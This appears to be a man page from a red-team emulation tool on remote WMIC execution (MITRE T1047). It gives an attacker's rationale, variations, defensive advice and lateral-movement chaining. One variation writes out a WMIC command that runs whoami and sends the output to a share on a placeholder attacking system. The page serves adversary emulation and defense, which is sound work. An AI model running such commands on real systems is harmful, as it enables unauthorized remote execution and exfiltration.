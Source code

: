 
# Test remote WMIC access

---

### Metadata

This is a man page for a TTP available in Operator. Man pages provide additional context around procedures and should be consulted if you are looking to learn about a particular chain.

- *TTP Identifier*: 661efd66-d876-41de-88ee-ba9ec4328154
- *MITRE Technique ID*: [T1047](https://attack.mitre.org/techniques/T1047/)

---

### A hacker's perspective

---

Windows Management Interface Command (WMIC) is a powerful "live-off-the-land" binary for interacting with WMI. Knowing that I am able to execute WMI commands against remote systems tells me several things about my current permissions and how the target host is configured. I know, first of all, that my user has requisite privileges to execute commands remotely, which can allow me to move laterally in a number of ways. Secondly, I can make the assumption that remote hosts are Distributed Component Object Model (DCOM) accessible, which lets me know I have a possible execution mechanism on that host. 

### Expected output

---

Short response indicated a (Win32_Process)->Create() was successful on the remote system with a return value of 0. 

### Basic variations

---

This command can easily be modified for both local and remote discovery. With WMIC, we could also query other WMI classes like Win32_ComputerSystem or Win32_Share to discover more about the system. It is also possible to execute more intricate commands to get a response by using a technique like 'process call create "cmd.exe /c whoami >> \\<ATTACKING SYSTEM>\<PUBLIC SHARE>\cmd_response.txt"'. 

### Prevent + Detect

---

Capturing PowerShell and command-line input would allow defenders to see calls to the WMIC binary, which might be suspicious depending upon the environment. Additionally, consider disabling DCOM access so that WMIC cannot be used to execute code through DCOM remotely. The Windows firewall will block DCOM access by default as well, so review domain Group Policy Objects (GPOs) to ensure that Windows firewall is enabled and configured to block inbound DCOM. 

### How it is chained

---

An attacker that is testing their ability to execute commands/process on remote systems is almost certainly looking to move laterally to a new target. Likely next steps would be staging tools on the remote system (T1570) via SMB or another innocous protocol, then executing the staged payload with WMIC over DCOM (T1021.003) or WinRM (T1021.006). 
